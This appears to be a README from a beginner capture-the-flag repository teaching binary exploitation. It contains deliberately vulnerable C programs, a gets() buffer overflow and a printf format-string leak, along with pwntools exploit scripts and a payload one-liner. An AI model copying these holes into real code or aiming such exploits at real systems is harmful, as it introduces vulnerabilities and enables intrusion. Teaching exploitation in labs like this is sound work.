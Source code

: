 # Easy Category :> Binary Exploitation
- This category contains simple programs i have written to demonstrate basic techniques in binary explotation .
- It covers the main topics but with most security features turned off.  Enjoy :D

## bof
- This are the files <a href="./bof">here</a>
``` 
#include <stdio.h>

int main() {
    int check = 0;
    char input[40];

    setbuf(stdout, NULL);
    setbuf(stdin, NULL);
    setbuf(stderr, NULL);

    puts("Welcome to udsm-coict! ");
    gets(input);

    if (check == 0xdeadbeed) {
        puts("Congrats, here's a flag!\n");
        system("/bin/cat flag.txt\n");
    }
}
```
- We are expected to overflow the variable input to a point where we overright the variable check with the right characters to pass the if condition .
```
#!/usr/bin/python3
from pwn import *

class con:
        def local():
                elf = ELF("./pwn")
                p = elf.process()
                return p
        def remote():
                p = remote("ip_addr", "port")
                return p
def exploit():
        p = con.local()
        print(p.recvline())
        offset = 40
        addr = p32(0xdeadbeed)
        payload = b"A"*offset + addr 
        p.sendline(payload)
        print(p.recvall())
if __name__ == "__main__":
        exploit()
```
- First i find the offset where our input starts to overright the variable check . i get its 40 then what follows is the word i want to overflow...Taking into account the little endiannes concept.
``` We can also do this with the struct module of python..
this would result to the following exploit :
python3 -c"import struct;print(b'A'*40 + struct.pack('<I',0xdeadbeed))" > exploit1
cat exploit1 | ./pwn
wiiiih :)
```
## format string
- This are the files <a href="./string_format">here</a>
```
➜  string_format git:(master) ✗ cat pwn.c
#include <stdio.h>

void buffer_init() {
        setbuf(stdout, NULL);
        setbuf(stdin, NULL);
        setbuf(stderr, NULL);
}

int main() {
        char name[32];
        char flag[64];
        char *flag_ptr = flag;

        buffer_init();
        FILE *file = fopen("./flag.txt", "r");
        if (file == NULL) {
                printf("Please, create 'flag.txt' for debugging.\n");
                exit(0);
        }

        fgets(flag,sizeof(flag),file);

        while(1) {
                printf("What is your name?\n");
                fgets(name,sizeof(name),stdin);
                printf("\nHello there, ");
                printf(name);
                printf("\n");
        }
        return 0;
}
```
The bug is at the printf function where the function is not given a format in which it should print the contents of name variable.To mean a format specifier is not provided xD.
```
#!/usr/bin/python3

from pwn import *

class conn:
        def local():
                elf = ELF("./pwn")
                p = elf.process()
                return p
        def remote():
                p = remote("ip_addr",port)
                return p

def exploit():
        p = conn.local()
        print(p.recvline())
        payload = b"%p"*16
        p.sendline(payload)
        flag = str(p.recvuntil(b"What is")).replace("(nil)",'')
        flag = flag.replace("\\n",'')
        flag = flag.replace("'",'')
        flag = flag.replace("What is",'')
        print(flag)
        print("Wiiihiiiiihihihih :)")
        decoded_flag = []
        for element in flag.split("0x")[1:]:
            decoded_flag.append(str(p32(int("0x" + element,16))))
        decoded_flag = ''.join(decoded_flag)
        print(decoded_flag.replace("'b'",''))
        p.close()

if __name__ == "__main__":
        exploit()
```
## Buffer\_yt
	- files <a href="./Buffer_yt">here</a>
## Jump\_yt
	- files <a href="./Jump_yt">here</a>

Happy hacking :D
wiiih  :)
